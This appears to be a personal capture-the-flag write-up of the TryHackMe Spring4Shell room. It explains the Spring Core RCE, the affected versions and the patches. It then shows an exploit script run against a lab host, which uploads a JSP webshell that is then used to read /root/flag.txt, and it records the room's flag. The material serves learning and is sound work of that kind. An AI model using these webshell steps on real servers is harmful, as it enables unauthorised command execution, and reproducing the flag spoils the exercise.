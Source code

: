 In late March 2022, two remote command execution vulnerabilities in the Java [Spring framework](https://spring.io/) were made public. The first of these vulnerabilities affects a component of the framework called "Spring Cloud Functions". The second, arguably more serious vulnerability, affects a component in  "Spring Core" —  the heart of the framework — thus significantly increasing the vulnerability's potential impact and earning it the name "Spring4Shell" (a play on [Log4Shell](https://tryhackme.com/room/solar), the name of a brutal vulnerability disclosed at the end of 2021).

For various reasons, there has been a lot of confusion surrounding these vulnerabilities in the wider infosec community. As such, this room may be updated as new information comes to light. On a similar note, the impact of Spring4Shell is currently unknown; only time will tell how wide-spread the vulnerability is in the wild.  

This room will provide an overview of the Spring4Shell RCE vulnerability in Spring Core, as well as give you an opportunity to exploit it for yourself in the vulnerable machine attached to this task. We will start by taking a look at the vulnerability at a high-level, before exploiting the target machine for ourselves.

---

**Overview**

Spring4Shell was originally released as an 0-day in a now-deleted thread of Tweets. It was quickly identified as a bypass of the patch for [CVE-2010-1622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1622) — a vulnerability in earlier versions of the Spring Framework which allowed attackers to obtain remote command execution by abusing the way in which Spring handles data sent in HTTP requests. In short, the vulnerability allows attackers to upload a "webshell" (a piece of code which accepts commands from the attacker that the webserver is then tricked into executing) to the vulnerable server, achieving remote command execution.  

  
**How Does it Work?**  

To understand Spring4Shell, it is important that we understand CVE-2010-1622. Spring MVC (**M**odel-**V**iew-**C**ontroller) is part of the Spring Framework which makes it easy to develop web applications following the MVC design pattern. One of the features of Spring MVC is that it automatically instantiates and populates an object of a specified class when a request is made based on the parameters sent to the endpoint. In simple terms, this could be abused to overwrite important attributes of the parent class, resulting in remote code execution.

Spring4Shell works along similar lines, bypassing the mitigations that were added to patch CVE-2010-1622. The majority of the exploits for the Spring4Shell vulnerability operate by forcing the application to write a malicious `.jsp` file (effectively plaintext Java which Tomcat can execute — much like a PHP webserver would execute files with a `.php` extension) to the webserver. This webshell can then be executed to gain remote command execution over the target.  

  
**Limitations**  

Fortunately, despite how commonly used the Spring Framework is, the conditions in which the vulnerability can be exploited are actually fairly limited.  

The Spring4Shell vulnerability affects Spring Core before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19, running on a version of the **J**ava **D**evelopment **K**it (JDK) greater than or equal to 9. The publicly available exploits currently available only work on applications deployed to Apache Tomcat as WARs; however, the Spring Framework maintainers have stated that they believe there may be other ways to exploit the vulnerability.

Current conditions for vulnerability (as stated in [Spring's announcement of the vulnerability](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)) can be summarised as follows:

- JDK 9+
- A vulnerable version of the Spring Framework (<5.2 | 5.2.0-19 | 5.3.0-17)  
- Apache Tomcat as a server for the Spring application, packaged as a WAR
- A dependency on the `spring-webmvc` and/or `spring-webflux` components of the Spring Framework  
 

It is worth noting, however, that these may change over time as other ways to exploit the vulnerability are discovered.

  
**Remediations**

Fortunately, patched versions of the Spring Framework have been released. To remediate Spring4Shell, ensure that you are using a version of Spring released after patch 18 of minor release 5.3 (i.e. after 5.3.18), or after patch 20 if using minor release 5.2 (i.e. after 5.2.20). Upgrading the version of the framework is enough to remove the vulnerability from your applications.

If upgrading is not possible, it is possible to somewhat mitigate this vulnerability by setting a blocklist of vulnerable field patterns. More advice on this can be found [here](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement).

---

**Downloading The Exploit**  

We've covered the theory, now it's time to exploit the target!

As this is a network-based exploit, you will need to use the TryHackMe AttackBox or a local VM in order to run the exploit.

Copies of the exploit code can be obtained in three places:

- Attached to this task, accessible using the blue "Download Task Files" button.
- On port 8080 of the target machine (`http://10.10.229.58:8080/exploit.zip`).
- Directly on the AttackBox (`/root/Rooms/Spring4Shell/exploit.py`). This will already have been extracted from the archive for your convenience.  
    

Use whichever method is easiest to obtain a copy of the `exploit.zip` zipfile. The password for this archive is **`TryHackMe123!`**.

When you unzip the archive you should find a single Python script: `exploit.py`. This is a modified version of the proof of concept that is currently circulating online — it is slightly more user friendly than the original (obtained [here](https://github.com/BobTheShoplifter/Spring4Shell-POC)); however, you may use whichever version you wish. This task will assume that you are using the code provided.

  
**The Exploit**  

Read through the exploit code and ensure that you are happy that it does what it claims to do. You should _always_ review unknown exploits before running them.

Having satisfactorily completed our code review, let's start by taking a look at the help menu for the exploit:

Exploit Help Menu:
```php
           
user@attacker:~$ ./exploit.py --help
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url

Spring4Shell RCE Proof of Concept

positional arguments:
  url                   Target URL

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        Name of the file to upload (Default tomcatwar.jsp)
  -p PASSWORD, --password PASSWORD
                        Password to protect the shell with (Default: thm)
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file (Default: ROOT)
```

The script requires one argument: `url` — this specifies the target for the POST request. The other three optional arguments can be ignored in the current context.

Let's start by taking a look at the website in a browser (`http://10.10.229.58/`)  

We can easily find our target URL by checking the source code of the website homepage (`view-source:http://10.10.229.58/`).

Specifically we are looking for the "action" of the contact form (the only POST request available to us). This is found on line 20:

`<form id="contactForm" action="/" method="post">`  

The action is "`/`", meaning that our target URL will simply be: `http://10.10.229.58/`.

_**Note:** the trailing slash is very important here!_  

  
**Attack**

Time to use the exploit!

Execute the script (if you're using the AttackBox navigate to the folder /root/Rooms/spring4shell). You should receive output similar to the following:

Running the Exploit

```php     
user@attacker:~$ ./exploit.py http://10.10.229.58/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.229.58/tomcatwar.jsp?pwd=thm&cmd=whoami
```

![[img/Pasted image 20241005053708.png]]

A webshell should now have been uploaded!

Navigate to the link provided by the exploit to see this in action. You can change which command gets run by changing the `cmd` parameter. By default the command is `whoami`.

![[img/Pasted image 20241005053744.png]]

_**Note:** Once the exploit has been used successfully once, it cannot be used again until the application has been restarted. If you upload the webshell with the wrong name or directory path then you will need to terminate and re-deploy the target machine._

```php
http://10.10.229.58/tomcatwar.jsp?pwd=thm&cmd=cat+/root/flag.txt
```

Flag.txt: THM{NjAyNzkyMjU0MzA1ZWMwZDdiM2E5YzFm}

---

If you would like to read more about Spring4Shell, you may find the following resources informative:  

- [Spring RCE Announcement](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement)  
    
- [LunaSec Blog Post](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/)
- [Praetorian Blog Post](https://www.praetorian.com/blog/spring-core-jdk9-rce/)
- [o0o Writeup for CVE-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html)

---

**Completed:** _05:58 2024-10-05_


